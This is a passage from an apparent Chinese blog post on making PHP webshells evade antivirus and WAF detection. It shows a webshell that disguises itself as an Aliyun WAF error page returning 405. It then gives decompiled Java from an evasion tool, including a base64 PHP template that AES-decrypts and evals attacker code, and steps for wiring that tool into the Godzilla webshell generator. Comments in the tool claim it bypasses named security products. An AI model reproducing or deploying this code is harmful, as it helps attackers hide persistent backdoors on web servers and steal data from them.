RvdyB7CiAgICAgICAgICAgIGRpc3BsYXk6IG5vbmU7CiAgICAgICAgICAgIHBvc2l0aW9uOiBhYnNvbHV0ZTsKICAgICAgICAgICAgdG9wOiAwOwogICAgICAgICAgICBsZWZ0OiAwOwogICAgICAgICAgICB3aWR0aDogMTAwJTsKICAgICAgICAgICAgaGVpZ2h0OgogICAgICAgICAgICAgICAgMTAwJTsKICAgICAgICAgICAgYmFja2dyb3VuZDogIzk5OTsKICAgICAgICAgICAgb3BhY2l0eTogLjU7CiAgICAgICAgfQoKICAgICAgICAuYWxlcnQgewogICAgICAgICAgICBkaXNwbGF5OiBub25lOwogICAgICAgICAgICBwb3NpdGlvbjoKICAgICAgICAgICAgICAgIGFic29sdXRlOwogICAgICAgICAgICB0b3A6IDIwMHB4OwogICAgICAgICAgICBsZWZ0OiA1MCU7CiAgICAgICAgICAgIHdpZHRoOiA2MDBweDsKICAgICAgICAgICAgbWFyZ2luLWxlZnQ6IC0zMDBweDsKICAgICAgICAgICAgcGFkZGluZy1ib3R0b206CiAgICAgICAgICAgICAgICAyNXB4OwogICAgICAgICAgICBib3JkZXI6IDFweCBzb2xpZCAjZGRkOwogICAgICAgICAgICBib3gtc2hhZG93OiAwIDJweCAycHggMXB4IHJnYmEoMCwgMCwgMCwgLjEpOwogICAgICAgICAgICBiYWNrZ3JvdW5kOiAjZmZmOwogICAgICAgICAgICBmb250LXNpemU6IDE0cHg7CiAgICAgICAgICAgIGNvbG9yOiAjNjk2OTY5OwogICAgICAgIH0KCiAgICAgICAgLmFsZXJ0IGgyIHsKICAgICAgICAgICAgbWFyZ2luOgogICAgICAgICAgICAgICAgMCAycHg7CiAgICAgICAgICAgIHBhZGRpbmc6IDEwcHggMTVweCA1cHggMTVweDsKICAgICAgICAgICAgZm9udC1zaXplOiAxNHB4OwogICAgICAgICAgICBmb250LXdlaWdodDogbm9ybWFsOwogICAgICAgICAgICBib3JkZXItYm90dG9tOiAxcHggc29saWQgI2RkZDsKICAgICAgICB9CgogICAgICAgIC5hbGVydCBhIHsKICAgICAgICAgICAgZGlzcGxheTogYmxvY2s7CiAgICAgICAgICAgIHBvc2l0aW9uOiBhYnNvbHV0ZTsKICAgICAgICAgICAgcmlnaHQ6IDEwcHg7CiAgICAgICAgICAgIHRvcDogOHB4OwogICAgICAgICAgICB3aWR0aDogMzBweDsKICAgICAgICAgICAgaGVpZ2h0OiAyMHB4OwogICAgICAgICAgICB0ZXh0LWFsaWduOiBjZW50ZXI7CiAgICAgICAgfQoKICAgICAgICAuYWxlcnQgcCB7CiAgICAgICAgICAgIHBhZGRpbmc6IDIwcHggMTVweDsKICAgICAgICB9CgogICAgICAgICNmZWVkYmFjay1jb250YWluZXIgewogICAgICAgICAgICB3aWR0aDogMTEwcHg7CiAgICAgICAgICAgIG1hcmdpbjogYXV0bzsKICAgICAgICAgICAgbWFyZ2luLXRvcDogMTIwcHg7CiAgICAgICAgICAgIHRleHQtYWxpZ246IGNlbnRlcjsKICAgICAgICB9CgogICAgICAgICNxcmNvZGUgewogICAgICAgICAgICBtYXJnaW46IDAgMTVweCA1cHggMTVweDsKICAgICAgICB9CgogICAgICAgICNmZWVkYmFjayBhIHsKICAgICAgICAgICAgY29sb3I6ICM5OTk7CiAgICAgICAgICAgIGZvbnQtc2l6ZTogMTJweDsKICAgICAgICAgICAgbWFyZ2luLXRvcDogNXB4OwogICAgICAgIH0KICAgIDwvc3R5bGU+CjwvaGVhZD4KCjxib2R5IGRhdGEtc3BtPSI3NjYzMzU0Ij4KICAgIDxzY3JpcHQ+CiAgICAgICAgd2l0aCAoZG9jdW1lbnQpIHdpdGggKGJvZHkpIHdpdGggKGluc2VydEJlZm9yZShjcmVhdGVFbGVtZW50KCJzY3JpcHQiKSwgZmlyc3RDaGlsZCkpIHNldEF0dHJpYnV0ZSgiZXhwYXJhbXMiLCAiY2F0ZWdvcnk9JnVzZXJpZD02ODUzMDgyOTUmYXBsdXMmdWRwaWQ9VldlVU9jZVFKZEtqJiZ5dW5pZD0mZTkzYjRlM2U3NWUwNSZ0cmlkPTY1MjViNzk2MTU4MzkyMDYwOTQwMDM5MzhlJmFzaWQ9QVlmNTJDamh0V2hlK2FmK0hRQUFBQUNXQS9TSW5PM1FMdz09IiwgaWQgPSAidGItYmVhY29uLWFwbHVzIiwgc3JjID0gKGxvY2F0aW9uID4gImh0dHBzIiA/ICIvL2ciIDogIi8vZyIpICsgIi5hbGljZG4uY29tL2FsaWxvZy9tbG9nL2FwbHVzX3YyLmpzIikKICAgIDwvc2NyaXB0PgogICAgPHNjcmlwdD4KICAgICAgICAvLwogICAgICAgIHZhciBpMThuT2JqZWN0ID0gewogICAgICAgICAgICAiemgtY24iOiB7CiAgICAgICAgICAgICAgICAibWVzc2FnZSI6ICLlvojmirHmrYnvvIznlLHkuo7mgqjorr/pl67nmoRVUkzmnInlj6/og73lr7nnvZHnq5npgKDmiJDlronlhajlqIHog4HvvIzmgqjnmoTorr/pl67ooqvpmLvmlq3jgIIiLAogICAgICAgICAgICAgICAgImJnSW1nIjogImh0dHBzOi8vZXJyb3JzLmFsaXl1bi5jb20vaW1hZ2VzL1RCMTVRR2FIcFhYWFhYT2FYWFhYaWEzOVhYWC02NjAtMTE3LnBuZyIsCiAgICAgICAgICAgICAgICAicmVwb3J0IjogIuivr+aKpeWPjemmiCIsCiAgICAgICAgICAgIH0sCiAgICAgICAgICAgICJlbi11cyI6IHsKICAgICAgICAgICAgICAgICJtZXNzYWdlIjogIlNvcnJ5LCB3ZSBoYXZlIGRldGVjdGVkIG1hbGljaW91cyB0cmFmZmljIGZyb20geW91ciBuZXR3b3JrLCBwbGVhc2UgdHJ5IGFnYWluIGxhdGVyLiIsCiAgICAgICAgICAgICAgICAiYmdJbWciOiAiaHR0cHM6Ly9pbWcuYWxpY2RuLmNvbS90ZnMvVEIxQURBT0lGenFLMVJqU1pTZ1hYY3BBVlhhLTEzMjAtMjM0LmpwZyIsCiAgICAgICAgICAgICAgICAicmVwb3J0IjogIlJlcG9ydCIsCiAgICAgICAgICAgIH0KICAgICAgICB9CiAgICAgICAgdmFyIGkxOG4gPSBpMThuT2JqZWN0WyJlbi11cyJdOwogICAgICAgIGlmIChuYXZpZ2F0b3IubGFuZ3VhZ2UuaW5kZXhPZigiemgiKSA+PSAwKSB7CiAgICAgICAgICAgIGkxOG4gPSBpMThuT2JqZWN0WyJ6aC1jbiJdOwogICAgICAgIH0KCiAgICA8L3NjcmlwdD4KCiAgICA8ZGl2IGRhdGEtc3BtPSIxOTk4NDEwNTM4Ij4KICAgICAgICA8ZGl2IGNsYXNzPSJoZWFkZXIiPgogICAgICAgICAgICA8ZGl2IGNsYXNzPSJjb250YWluZXIiPgogICAgICAgICAgICAgICAgPGRpdiBjbGFzcz0ibWVzc2FnZSI+CiAgICAgICAgICAgICAgICAgICAgPHNjcmlwdD5kb2N1bWVudC53cml0ZShpMThuLm1lc3NhZ2UpPC9zY3JpcHQ+CiAgICAgICAgICAgICAgICA8L2Rpdj4KICAgICAgICAgICAgPC9kaXY+CiAgICAgICAgPC9kaXY+CiAgICAgICAgPGRpdiBjbGFzcz0ibWFpbiI+CiAgICAgICAgICAgIDxkaXYgY2xhc3M9ImNvbnRhaW5lciI+CiAgICAgICAgICAgICAgICA8c2NyaXB0PmRvY3VtZW50LndyaXRlKCc8aW1nIHdpZHRoPSI2NjAiIGhlaWdodD0iMTE3IiBzcmM9IicgKyBpMThuLmJnSW1nICsgJyIvPicpPC9zY3JpcHQ+CgogICAgICAgICAgICA8L2Rpdj4KICAgICAgICA8L2Rpdj4KICAgICAgICA8ZGl2IGNsYXNzPSJmb290ZXIiPgogICAgICAgICAgICA8ZGl2IGNsYXNzPSJjb250YWluZXIiPgogICAgICAgICAgICAgICAgPHNwYW4gc3R5bGU9J2Rpc3BsYXk6bm9uZSc+CiAgICAgICAgICAgICAgICAgICAgPHNjcmlwdD4KICAgICAgICAgICAgICAgICAgICAgICAgZnVuY3Rpb24gZ2V0UXVlcnlTdHJpbmcodXJsLCBuYW1lKSB7CiAgICAgICAgICAgICAgICAgICAgICAgICAgICB2YXIgcmVnID0gbmV3IFJlZ0V4cCgnKF58JiknICsgbmFtZSArICc9KFteJl0qKSgmfCQpJyk7CiAgICAgICAgICAgICAgICAgICAgICAgICAgICB2YXIgciA9IHVybC5zdWJzdHIoMSkubWF0Y2gocmVnKTsKICAgICAgICAgICAgICAgICAgICAgICAgICAgIGlmIChyICE9PSBudWxsKSByZXR1cm4gdW5lc2NhcGUoclsyXSk7IHJldHVybiBudWxsOwogICAgICAgICAgICAgICAgICAgICAgICB9CiAgICAgICAgICAgICAgICAgICAgICAgIHZhciBfX3V1aWRfX18gPSBnZXRRdWVyeVN0cmluZyhsb2NhdGlvbi5ocmVmLCAidXVpZCIpCiAgICAgICAgICAgICAgICAgICAgPC9zY3JpcHQ+CiAgICAgICAgICAgICAgICA8L3NwYW4+CiAgICAgICAgICAgICAgICA8YSB0YXJnZXQ9Il9ibGFuayIgaWQ9InJlcG9ydCIgaHJlZj0iamF2YXNjcmlwdDo7IiBkYXRhLXNwbS1jbGljaz0iZ29zdHI9L3dhZi4xMjMuMTIzO2xvY2FpZD1kMDAxOyI+CiAgICAgICAgICAgICAgICAgICAgPHNjcmlwdD5kb2N1bWVudC53cml0ZShpMThuLnJlcG9ydCk8L3NjcmlwdD4KICAgICAgICAgICAgICAgIDwvYT4KICAgICAgICAgICAgPC9kaXY+CiAgICAgICAgPC9kaXY+CiAgICA8L2Rpdj4KICAgIDxkaXYgaWQ9ImFsZXJ0U2hhZG93IiBjbGFzcz0iYWxlcnQtc2hhZG93Ij4KICAgIDwvZGl2PgogICAgPGRpdiBpZD0iYWxlcnRDb250YWluZXIiIGNsYXNzPSJhbGVydCI+CiAgICAgICAgPGgyPgogICAgICAgICAgICDmj5DnpLrvvJoKICAgICAgICAgICAgPGEgaHJlZj0iamF2YXNjcmlwdDo7IiB0aXRsZT0i5YWz6ZetIiBpZD0iY2xvc2VBbGVydCI+CiAgICAgICAgICAgICAgICBYCiAgICAgICAgICAgIDwvYT4KICAgICAgICA8L2gyPgogICAgICAgIDxwPgogICAgICAgICAgICDmhJ/osKLmgqjnmoTlj43ppojvvIzlupTnlKjpmLLngavlopnkvJrlsL3lv6vov5vooYzliIbmnpDlkoznoa7orqTjgIIKICAgICAgICA8L3A+CiAgICA8L2Rpdj4KICAgIDxkaXYgaWQ9ImZlZWRiYWNrLWNvbnRhaW5lciI+CiAgICAgICAgPGRpdiBpZD0icXJjb2RlIj48L2Rpdj4KICAgICAgICA8ZGl2IGlkPSJmZWVkYmFjayI+PC9kaXY+CiAgICA8L2Rpdj4KICAgIDxzY3JpcHQ+CiAgICAgICAgZnVuY3Rpb24gc2hvdygpIHsKICAgICAgICAgICAgdmFyIGcgPSBmdW5jdGlvbiAoZWxlKSB7CiAgICAgICAgICAgICAgICByZXR1cm4gZG9jdW1lbnQuZ2V0RWxlbWVudEJ5SWQoZWxlKTsKICAgICAgICAgICAgfTsKICAgICAgICAgICAgdmFyIHJlcG9ydEhhbmRsZSA9IGcoJ3JlcG9ydCcpOwogICAgICAgICAgICB2YXIgYWxlcnRTaGFkb3cgPSBnKCdhbGVydFNoYWRvdycpOwogICAgICAgICAgICB2YXIgYWxlcnRDb250YWluZXIgPSBnKCdhbGVydENvbnRhaW5lcicpOwogICAgICAgICAgICB2YXIgY2xvc2VBbGVydCA9IGcoJ2Nsb3NlQWxlcnQnKTsKICAgICAgICAgICAgdmFyIG93biA9IHt9OwogICAgICAgICAgICBvd24ucmVwb3J0ID0gZnVuY3Rpb24gKCkgeyAKICAgICAgICAgICAgICAgIG93bi5hbGVydCgpOwogICAgICAgICAgICB9OyBvd24uYWxlcnQgPSBmdW5jdGlvbiAoKSB7IGFsZXJ0U2hhZG93LnN0eWxlLmRpc3BsYXkgPSAnYmxvY2snOyBhbGVydENvbnRhaW5lci5zdHlsZS5kaXNwbGF5ID0gJ2Jsb2NrJzsgfTsgb3duLmNsb3NlID0gZnVuY3Rpb24gKCkgeyBhbGVydFNoYWRvdy5zdHlsZS5kaXNwbGF5ID0gJ25vbmUnOyBhbGVydENvbnRhaW5lci5zdHlsZS5kaXNwbGF5ID0gJ25vbmUnOyB9OwogICAgICAgIH07CgogICAgICAgIHZhciB1dWlkID0gbG9jYXRpb24uaHJlZi5tYXRjaCgvdXVpZD0oW14mXSspLyk7CiAgICAgICAgdXVpZCA9IHV1aWQgJiYgZW5jb2RlVVJJQ29tcG9uZW50KHV1aWRbMV0pOwogICAgICAgIHZhciB1cmxRckNvZGUgPSBsb2NhdGlvbi5ocmVmLm1hdGNoKC9xcmNvZGU9KFteJl0rKS8pOwogICAgICAgIHVybFFyQ29kZSA9IHVybFFyQ29kZSAmJiBkZWNvZGVVUklDb21wb25lbnQodXJsUXJDb2RlWzFdKTsKICAgICAgICBpZiAodXVpZCB8fCB1cmxRckNvZGUpIHsKICAgICAgICAgICAgdmFyIHFyY29kZSA9IG5ldyBRUkNvZGUoZG9jdW1lbnQuZ2V0RWxlbWVudEJ5SWQoInFyY29kZSIpLCB7CiAgICAgICAgICAgICAgICB0ZXh0OiB1cmxRckNvZGUgfHwgdXVpZCwKICAgICAgICAgICAgICAgIHdpZHRoOiA4MCwKICAgICAgICAgICAgICAgIGhlaWdodDogODAsCiAgICAgICAgICAgICAgICBjb2xvckRhcms6ICIjOTk5IiwKICAgICAgICAgICAgfSk7CiAgICAgICAgICAgIHZhciBmZWVkYmFja0xpbmsgPSBnZXRGZWVkYmFja0xpbmsoKTsKICAgICAgICAgICAgZG9jdW1lbnQuZ2V0RWxlbWVudEJ5SWQoImZlZWRiYWNrIikuaW5uZXJIVE1MID0gZmVlZGJhY2tMaW5rOwogICAgICAgIH0KICAgICAgICBmdW5jdGlvbiBnZXRGZWVkYmFja0xpbmsoKSB7CiAgICAgICAgICAgIHZhciB1cmxPcmlnaW47CiAgICAgICAgICAgIHVybE9yaWdpbiA9IGxvY2F0aW9uLmhyZWYubWF0Y2goL29yaWdpbj0oW14mXSspLyk7CiAgICAgICAgICAgIHVybE9yaWdpbiA9IHVybE9yaWdpbiAmJiBkZWNvZGVVUklDb21wb25lbnQodXJsT3JpZ2luWzFdKS5zcGxpdCgiPyIpWzBdOwogICAgICAgICAgICBpZiAodXJsT3JpZ2luKSB7CiAgICAgICAgICAgICAgICB0cnkgewogICAgICAgICAgICAgICAgICAgIHVybE9yaWdpbiA9IG5ldyBVUkwodXJsT3JpZ2luKTsKICAgICAgICAgICAgICAgICAgICBpZiAodXJsT3JpZ2luLnByb3RvY29sICE9PSAiaHR0cHM6IiAmJiB1cmxPcmlnaW4ucHJvdG9jb2wgIT09ICJodHRwOiIpIHsKICAgICAgICAgICAgICAgICAgICAgICAgdXJsT3JpZ2luID0gbnVsbDsKICAgICAgICAgICAgICAgICAgICB9IGVsc2UgewogICAgICAgICAgICAgICAgICAgICAgICB1cmxPcmlnaW4gPSB1cmxPcmlnaW4uaHJlZjsKICAgICAgICAgICAgICAgICAgICB9CiAgICAgICAgICAgICAgICB9IGNhdGNoIChlKSB7CiAgICAgICAgICAgICAgICAgICAgaWYgKHR5cGVvZiB1cmxPcmlnaW4gIT09ICJzdHJpbmciIHx8IHVybE9yaWdpbi5pbmRleE9mKCJodHRwIikgIT09IDApIHsKICAgICAgICAgICAgICAgICAgICAgICAgdXJsT3JpZ2luID0gbnVsbDsKICAgICAgICAgICAgICAgICAgICB9IGVsc2UgewogICAgICAgICAgICAgICAgICAgICAgICB1cmxPcmlnaW4gPSBmaWx0ZXJIdG1sKHVybE9yaWdpbik7CiAgICAgICAgICAgICAgICAgICAgfQogICAgICAgICAgICAgICAgfQogICAgICAgICAgICB9CiAgICAgICAgICAgIHZhciBfbGFuZ3VhZ2UgPSBuYXZpZ2F0b3IuYnJvd3Nlckxhbmd1YWdlIHx8IG5hdmlnYXRvci5sYW5ndWFnZTsKICAgICAgICAgICAgdmFyIHRleHQgPSBbInpoLUNOIiwgInpoLWNuIl0uaW5jbHVkZXMoX2xhbmd1YWdlKSA/ICLngrnmiJHlj43ppoggPiIgOiAiQ2xpY2sgdG8gZmVlZGJhY2sgPiI7CiAgICAgICAgICAgIHJldHVybiAnPGEgaHJlZj0iJyArIHVybE9yaWdpbiArICcvX19fX190bWRfX19fXy9wYWdlL2ZlZWRiYWNrP3JhbmQ9UzNXeEdIQWdBdDc1NkVwem53Zk56SnEyQUZBMnFCTmxhM2o2RUlOVVM4V2U5ZGF6TV9pS0VscDhEd1ZTSFpVZXZwQzQxQng3UnppdlhJajlSblpnZGcmdXVpZD0nICsgZW5jb2RlVVJJQ29tcG9uZW50KHV1aWQpICsgJyZ0eXBlPTYiIHRhcmdldD0iX2JsYW5rIj4nICsgdGV4dCArICc8L2E+JzsKICAgICAgICB9OwogICAgICAgIGZ1bmN0aW9uIGZpbHRlckh0bWwoc3RyKSB7CiAgICAgICAgICAgIHN0ciA9IHN0ci5yZXBsYWNlKC8mL2csICIiKTsKICAgICAgICAgICAgc3RyID0gc3RyLnJlcGxhY2UoLz4vZywgIiIpOwogICAgICAgICAgICBzdHIgPSBzdHIucmVwbGFjZSgvPC9nLCAiIik7CiAgICAgICAgICAgIHN0ciA9IHN0ci5yZXBsYWNlKC8iL2csICIiKTsKICAgICAgICAgICAgc3RyID0gc3RyLnJlcGxhY2UoLycvZywgIiIpOwogICAgICAgICAgICBzdHIgPSBzdHIucmVwbGFjZSgvYC9nLCAiIik7CiAgICAgICAgICAgIHN0ciA9IHN0ci5yZXBsYWNlKC9qYXZhc2NyaXB0L2csICIiKTsKICAgICAgICAgICAgc3RyID0gc3RyLnJlcGxhY2UoL2lmcmFtZS9nLCAiIik7CiAgICAgICAgICAgIHJldHVybiBzdHI7CiAgICAgICAgfQoKICAgIDwvc2NyaXB0PgogICAgPHNjcmlwdCB0eXBlPSJ0ZXh0L2phdmFzY3JpcHQiIGNoYXJzZXQ9InV0Zi04IiBzcmM9Imh0dHBzOi8vZXJyb3JzLmFsaXl1bi5jb20vZXJyb3IuanM/cz0xMCI+CiAgICA8L3NjcmlwdD4KPC9ib2R5PgoKPC9odG1sPg==";
if( count($_REQUEST) || file_get_contents("php://input") ){

}else{
    header('Content-Type:text/html;charset=utf-8');    http_response_code(405);
    echo base64_decode/**/($uiUTVz);
}
```

拿给好兄弟检测检测



舒服了，还得是小刚舒服



已经可以了算是

长亭的


### 自动化免杀

当然如果我们每次生成 webshell 后再使用工具有点麻烦，这里用小刚舒服的工具，只简单集成一下二开哥斯拉  
这里只简单集成

首先就是需要看懂生成木马的逻辑

点击生成后会调用对应加密器的

```
public byte[] generate(String password, String secretKey) {
    return new String(functions.readInputStreamAutoClose(PhpEvalXor.class.getResourceAsStream("template/eval.bin"))).replace("{pass}", password).getBytes();
}
```

这里随便拿一个加密器举例子，然后看到关键方法

```
public static byte[] GenerateShellLoder(String pass, String secretKey, boolean isBin) {
    byte[] data = null;
    try {
        InputStream inputStream = Generate.class.getResourceAsStream("template/" + (isBin ? "raw.bin" : "base64.bin"));
        String code = new String(functions.readInputStream(inputStream));
        inputStream.close();
        code = code.replace("{pass}", pass).replace("{secretKey}", secretKey);
        code = TemplateEx.run(code);
        data = code.getBytes();
    } catch (Exception e) {
        Log.error(e);
    }
    return data;
}
```

就是对我们的模板进行一个替换，然后生成我们的文件

所以我修改的核心在于修改 GenerateShellLoder 方法，那么需要集成小刚师傅的免杀逻辑，就需要读懂代码



看一下主逻辑

```
public void buttonAction() {
String[] phpdemo = null;
switch ((String)this.selectDemo.getValue()) {
    case "phpdemo1":
        phpdemo = (new PhpEncodeDemo1((String)this.selectDemo.getValue(), this.sourcecodeArea.getText(), this.keyField.getText())).Run();
        phpdemo[0] = phpdemo[0] + (new HtmlPretend()).GetPhp((String)this.selectPretend.getValue(), this.pretendField.getText());
        break;
    case "phpdemo2":
        phpdemo = (new PhpEncodeDemo2((String)this.selectDemo.getValue(), this.sourcecodeArea.getText(), this.keyField.getText())).Run();
        phpdemo[0] = phpdemo[0] + (new HtmlPretend()).GetPhp((String)this.selectPretend.getValue(), this.pretendField.getText());
        break;
    case "phpdemo3":
        phpdemo = (new PhpEncodeDemo3((String)this.selectDemo.getValue(), this.sourcecodeArea.getText(), this.keyField.getText())).Run();
        phpdemo[0] = phpdemo[0] + (new HtmlPretend()).GetPhp((String)this.selectPretend.getValue(), this.pretendField.getText());
        this.noteArea.setText(phpdemo[1]);
        break;
    case "phpdemo4":
        phpdemo = (new PhpEncodeDemo4((String)this.selectDemo.getValue(), this.sourcecodeArea.getText(), this.keyField.getText())).Run();
        phpdemo[0] = phpdemo[0] + (new HtmlPretend()).GetPhp((String)this.selectPretend.getValue(), this.pretendField.getText());
        break;
    case "phpdemo5":
        phpdemo = (new PhpEncodeDemo5((String)this.selectDemo.getValue(), this.sourcecodeArea.getText(), this.keyField.getText())).Run();
        phpdemo[0] = phpdemo[0] + (new HtmlPretend()).GetPhp((String)this.selectPretend.getValue(), this.pretendField.getText());
        break;
    case "phpdemo6":
        phpdemo = (new PhpEncodeDemo6((String)this.selectDemo.getValue(), this.sourcecodeArea.getText(), this.keyField.getText())).Run();
        phpdemo[0] = phpdemo[0] + (new HtmlPretend()).GetPhp((String)this.selectPretend.getValue(), this.pretendField.getText());
        this.noteArea.setText(phpdemo[1]);
        break;
    case "*phpdemo7":
        phpdemo = (new PhpEncodeDemo7((String)this.selectDemo.getValue(), this.sourcecodeArea.getText(), this.keyField.getText())).Run();
        phpdemo[0] = phpdemo[0] + (new HtmlPretend()).GetPhp((String)this.selectPretend.getValue(), this.pretendField.getText());
        this.noteArea.setText(phpdemo[1]);
        break;
    case "*phpdemo8":
        phpdemo = (new PhpEncodeDemo8((String)this.selectDemo.getValue(), this.sourcecodeArea.getText(), this.keyField.getText())).Run();
        phpdemo[0] = phpdemo[0] + (new HtmlPretend()).GetPhp((String)this.selectPretend.getValue(), this.pretendField.getText());
        this.noteArea.setText(phpdemo[1]);
        break;
    default:
        phpdemo = new String[]{"请选择php免杀模板", ""};
}
```

我这里选择的是 demo6

然后首先是 PhpEncodeDemo6 模板的 Run 方法实现主要的免杀

```
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package com.xg.ntai.encode;

import com.xg.ntai.function.GetMd5;
import com.xg.ntai.function.RandomString;
import java.nio.charset.StandardCharsets;
import java.util.Base64;
import java.util.Random;
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;

public class PhpEncodeDemo6 {
    String tamplate;
    String sourcecode;
    String key;
    String key1;
    String key2;
    String MScode;
    String randomstring;
    String Describe;

    public PhpEncodeDemo6() {
    }

    public PhpEncodeDemo6(String tamplate, String sourcecode, String key) {
        this.tamplate = tamplate;
        this.sourcecode = sourcecode;
        this.key = key;
    }

    public static String GetDescribe() {
        return "/*
 * By: XG��
 * Update: 2023-12-25
 * Bypass: ���ơ������ƶ����ļ����ƽ̨����ȫ����������(1.8.2)��D��(2.1.7)
 * ����: /xxxx.php?xxxxxx=cfile
 * ��: ��php�汾����
 */";
    }

    public String[] Run() {
        if (!this.sourcecode.isEmpty()) {
            try {
                this.sourcecode = this.sourcecode.replace("<?php", "").replace("?>", "").trim();
                byte[] bytes = this.sourcecode.getBytes(StandardCharsets.UTF_8);
                if (this.key.equals("Ĭ�����")) {
                    this.key = RandomString.getRString((new Random()).nextInt(10) + 5);
                }

                this.key1 = GetMd5.getMd5(this.key).substring(0, 16);
                this.key2 = GetMd5.getMd5(this.key).substring(16);
                byte[] raw = this.key2.getBytes("utf-8");
                SecretKeySpec skeySpec = new SecretKeySpec(raw, "AES");
                Cipher cipher = Cipher.getInstance("AES/ECB/PKCS5Padding");
                cipher.init(1, skeySpec);
                byte[] encrypted = cipher.doFinal(bytes);
                byte[] aes_bas64data = Base64.getEncoder().encode(encrypted);
                String demo = "PD9waHAKZXJyb3JfcmVwb3J0aW5nKDApOwpjbGFzcyBjRmlsZSB7CiAgICBwdWJsaWMgc3RhdGljIGZ1bmN0aW9uIHNlbGVjdEZpbGUoJGZpbGVuYW1lKXsKICAgICAgICAkc2lnbiA9ICckJGtleSQkJzsKICAgICAgICAkZmlsZXVybCA9ICckJGVuY29kZSQkJzsKICAgICAgICAkZmlsZSA9IG9wZW5zc2xfZGVjcnlwdChjRmlsZTo6ZGUoJGZpbGV1cmwpLCAiQUVTLTEyOC1FQ0IiLCAkc2lnbixPUEVOU1NMX1BLQ1MxX1BBRERJTkcpOwogICAgICAgICRmaWxlX2Vycm9yID0gJCRmaWxlbmFtZTsKICAgICAgICBAZXZhbCgkZmlsZV9lcnJvcik7CiAgICAgICAgcmV0dXJuICJmaWxlbmFtZSI7CiAgICB9CiAgICBwdWJsaWMgc3RhdGljIGZ1bmN0aW9uIGdldFByaXYoKSB7CiAgICAgICAgcmV0dXJuICdzZWxlY3RGaWxlJzsKICAgIH0KICAgIHB1YmxpYyBzdGF0aWMgZnVuY3Rpb24gZGUoJGZpbGV1cmwpewogICAgICAgIHJldHVybiBiYXNlNjRfZGVjb2RlKCRmaWxldXJsKTsKICAgIH0KfQovLyRjZmlsZSA9ICdjRmlsZSc7CiRjZmlsZSA9ICRfR0VUWyckJHJhbmRvbSQkJ107CiRlcnJvciA9IFskY2ZpbGUsWyRjZmlsZSwnZ2V0UHJpdiddKCldOwokZXJyb3IoJ2ZpbGUnKTsK";
                this.MScode = new String(Base64.getDecoder().decode(demo));
                this.MScode = this.MScode.replace("$$key$$", this.key2);
                this.MScode = this.MScode.replace("$$encode$$", new String(aes_bas64data));
                this.randomstring = RandomString.getRString(6).toLowerCase();
                this.MScode = this.MScode.replace("$$random$$", this.randomstring);
                this.Describe = "/*
 * By: XG��
 * Update: 2023-12-25
 * Bypass: ���ơ������ƶ����ļ����ƽ̨����ȫ����������(1.8.2)��D��(2.1.7)
 * ����: /xxxx.php?" + this.randomstring + "=cfile
 * ��: ��php�汾����
 */";
                return new String[]{this.MScode, this.Describe};
            } catch (Exception var8) {
                return new String[]{"����ʧ��", this.Describe};
            }
        } else {
            return new String[]{"�������Ы����˹��phpԴ��", this.Describe};
        }
    }
}

```

怎么实现的我们不需要关注，我们的目的就是集成它的 run 方法，把我们生成的代码进行一个免杀

```
public static byte[] GenerateShellLoder(String pass, String secretKey, boolean isBin) {
    byte[] data = null;
    try {
        // 读取原始 shell 代码
        InputStream inputStream = Generate.class.getResourceAsStream("template/" + (isBin ? "raw.bin" : "base64.bin"));
        String sourceCode = new String(functions.readInputStream(inputStream));
        inputStream.close();

        // 替换占位符
        sourceCode = sourceCode.replace("{pass}", pass).replace("{secretKey}", secretKey);

